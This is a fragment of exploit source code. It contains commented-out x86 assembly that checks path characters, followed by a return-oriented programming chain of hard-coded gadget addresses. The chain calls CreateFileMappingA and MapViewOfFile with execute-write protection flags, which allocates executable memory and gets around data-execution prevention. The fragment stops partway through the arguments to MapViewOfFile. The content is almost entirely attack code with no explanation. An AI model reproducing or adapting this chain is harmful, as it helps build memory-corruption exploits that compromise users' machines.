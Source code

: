 ```asm
#   and [esp+ebx*2],edi
#   jne check_slash
# ret_one:
#   mov al,1
#   ret
# check_slash:
#   cmp al,0x2f
#   je ret_one
#   cmp al,0x41
#   jl check_lower
#   cmp al,0x5a
#   jle check_ptr
# check_lower:
#   cmp al,0x61
#   jl ret_zero
#   cmp al,0x7a
#   jg ret_zero
#   cmp [ecx+1],0x3a
#   je ret_one
# ret_zero:
#   xor al,al
#   ret
#

0x4a80a8a6,   # execute fun block

0x4a801f90,   # pop eax / ret
0x4a849038,   # becomes eax (import for CreateFileMappingA)

# -- call CreateFileMappingA
0x4a80b692,   # jmp [eax]

0x4a801064,   # ret

0xffffffff,   # arguments to CreateFileMappingA, hFile
0x00000000,   # lpAttributes
0x00000040,   # flProtect
0x00000000,   # dwMaximumSizeHigh
0x00010000,   # dwMaximumSizeLow
0x00000000,   # lpName

0x4a8063a5,   # pop ecx / ret
0x4a801064,   # becomes ecx

0x4a842db2,   # xchg eax,edi / ret

0x4a802ab1,   # pop ebx / ret
0x00000008,   # becomes ebx - offset to modify

0x4a80a8a6,   # execute fun block

0x4a801f90,   # pop eax / ret
0x4a849030,   # becomes eax (import for MapViewOfFile)

# -- call MapViewOfFile
0x4a80b692,   # jmp [eax]

0x4a801064,   # ret

0xffffffff,   # args to MapViewOfFile - hFileMappingObject
0x00000022,   # dwDesiredAccess
0x00000000,   # dwFileOffsetHigh
0x00000000,   # dwFileOffsetLow
```